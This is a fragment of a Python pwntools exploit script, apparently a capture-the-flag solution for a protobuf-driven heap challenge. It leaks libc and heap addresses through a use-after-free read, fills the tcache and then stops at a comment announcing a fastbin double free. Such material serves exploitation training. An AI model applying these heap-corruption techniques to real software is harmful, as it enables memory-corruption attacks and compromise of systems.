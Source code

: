 ```python
    data.whatidx = idx
    data.whatsize = 0
    data.whatsthis = 0
    data = data.SerializeToString()
    p.recvuntil(b'WANT?\n')
    p.send(data)
 
def delete(idx):
    data = heybro_pb2.heybro()
    data.whattodo = 2
    data.whatcon = b'0'
    data.whatidx = idx
    data.whatsize = 1
    data.whatsthis = 1
    data = data.SerializeToString()
    p.recvuntil(b'WANT?\n')
    p.send(data)
 
def show(idx):
    data = heybro_pb2.heybro()
    data.whattodo = 3
    data.whatcon = b'0'
    data.whatidx = idx
    data.whatsize = 1
    data.whatsthis = 1
    data = data.SerializeToString()
    p.recvuntil(b'WANT?\n')
    p.send(data)
 
def do_nothing(content):
    data = heybro_pb2.heybro()
    data.whattodo = 0
    data.whatcon = content
    data.whatidx = 1
    data.whatsize = 1
    data.whatsthis = 1
    data = data.SerializeToString()
    p.recvuntil(b'WANT?\n')
    p.send(data)    

for i in range(9):
    create(i,b'aaaaaaaa')

# leak libc_base
show(0)
p.recvuntil(b'aaaaaaaa')
leak = u64(p.recv(6).ljust(8,b'\x00'))
libc_base = leak - 0x21ace0
log.success('libc_base : ' + hex(libc_base))

# leak heap_base
delete(0)
show(0)
p.recvuntil(b'Content:')
leak = u64(p.recv(5).ljust(8,b'\x00'))
heap_base = (leak << 12) - 0x2000 
log.success('heap_addr : ' + hex(heap_base))

# fill 0x40 tcache
for i in range(6):
    delete(i+1)

# double free fastbin
```